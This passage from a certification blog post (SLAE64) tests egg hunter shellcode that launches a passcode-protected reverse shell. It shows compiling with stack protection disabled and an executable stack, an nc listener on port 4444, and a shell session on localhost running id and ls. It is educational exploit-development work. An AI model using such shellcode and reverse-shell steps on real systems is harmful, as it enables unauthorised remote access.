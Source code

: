 Now we need to compile the `C` program, by disabling the stack protection as well as making the stack executable:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/3_Egg_hunter$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

We test the Egg Hunter and the Reverse Shell by creating a listener on port `4444` with `nc` in one terminal window and in another we execute the executable `shellcode`. Then, back to the first we verify the incoming connection, provide the passcode: `Password` and run the commands `id` and `ls`.

1<sup>st</sup> window:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/3_Egg_hunter$ nc -lvnp 4444
```

2<sup>nd</sup> window:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/3_Egg_hunter$ ./shellcode 
Shellcode Length:  174
Egg Hunter Length: 48

```

1<sup>st</sup> window again:

```shell
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 60836)
Password
id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
ls
compile.sh
egg-hunter
egg-hunter.nasm
egg-hunter.o
reverse
shellcode
shellcode.c
exit
geobour98@slae64-dev:~/SLAE/custom/SLAE64/3_Egg_hunter$
```

## Summary

We have a working Egg Hunter shellcode that calls the Reverse Shell shellcode and we get a connection back on port 4444.

Next will be the Custom Encoder!



> **SLAE64 Blog Post**
>
> This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
> 
> https://www.pentesteracademy.com/course?id=7
>
> ~~http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/~~
>
> **Student ID: PA-36167**
{: .prompt-info }

